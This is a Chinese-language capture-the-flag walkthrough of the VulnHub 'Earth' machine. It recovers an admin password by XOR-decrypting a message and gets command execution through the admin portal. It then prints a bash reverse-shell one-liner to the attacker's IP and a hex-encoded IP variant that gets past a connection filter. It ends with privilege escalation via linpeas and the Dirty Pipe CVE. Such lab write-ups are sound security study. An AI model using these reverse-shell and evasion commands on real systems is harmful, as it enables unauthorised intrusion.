

## _前言_

靶机来源：[Vulnerable By Design ~ VulnHub](https://www.vulnhub.com/entry/the-planets-earth,755/)

注意！！！！！！

本文内容纯属非预期，请不要在意本文内容。

* * *

## 正文


发现有http端口可以访问。直接访问是400报错。


进行更详细的扫描。可以发现编程语言用的是Python版本为3.9，Web服务器是Apache 2.4.51


这里卡了好久，查看wp发现是DNS的问题，靶机应该是能够正常http访问的（尬

```
#windows
C:\Windows\System32\drivers\etc\hosts
#linux
/etc/hosts

#在最下面加入
#earth
192.168.101.41 earth.local
192.168.101.41 terratest.earth.local

#最后
ipconfig /flushdns
```

之后浏览器访问 earth.local即可正常进入


这里随意输入提交后，出现类似于加密后的字符串。


进行目录扫描，发现有一个admin的路由可以进入。


然后robots.txt在https端口也可访问到。


查看最后一个testingnotes.txt，发现留言。


```
测试安全消息传递系统注意：
*使用 XOR 加密作为算法，在 RSA 中使用应该是安全的。
*地球已确认他们已收到我们发送的消息。
*testdata.txt 用于测试加密。
*terra 用作 Admin Portal 的用户名。
待办事项：
*我们如何安全地将每月密钥发送到 Earth？还是我们应该每周更换密钥？
*需要测试不同的密钥长度以防止暴力破解。密钥应该有多长？
*需要改进消息界面和管理面板的界面，目前非常基础。
```

大概信息就是，在index.html的previous message那里的算法是异或，然后是用testdata.txt里的内容进行运算的，由于异或运算的特性，只需要把密文和testdata.txt再进行一次加密即可恢复原文。

```
import binascii
# 字符串异或
m = "According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago."
c = "2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a"

# 将字符串转换为十六进制
m = binascii.b2a_hex(m.encode("utf-8"))

# 进行异或运算
result = hex(int(c, 16) ^ int(m, 16))

print(result)

#0x6561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174656368616e67656261643468756d616e736561727468636c696d6174
```

仔细看，字符串是一直重复的：**earthclimatechangebad4humans** 。猜测是登陆密码。


登录成功！


测试命令，当前用户为apache，不是最高权限root。


全局查找flag，在var下发现一个


```
cat /var/earth_web/user_flag.txt

Command output: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]
```

接下来就要尝试提权了。这里要使用反弹shell。这里直接反弹shell会报错说不允许连接。


这里只需要把十进制数改为十六进制表示即可。（猜测是防火墙的原因）

```
bash -i >& /dev/tcp/192.168.101.39/100 0>&1
改为
bash -i >& /dev/tcp/0xc0.0xa8.0x65.0x27/100 0>&1
```



接下来进行提权。

在kali里已经下载有了linpeas脚本，然后开一个http.server服务让靶机下载。

靶机一定要进入/tmp才有写入的权限，然后运行 bash linpeas.sh。

居然又发现了这个脏管道CVE，上一篇文章里也是这个漏洞，正好kali里下载有。


可以发现权限已经提到了root


拿到flag
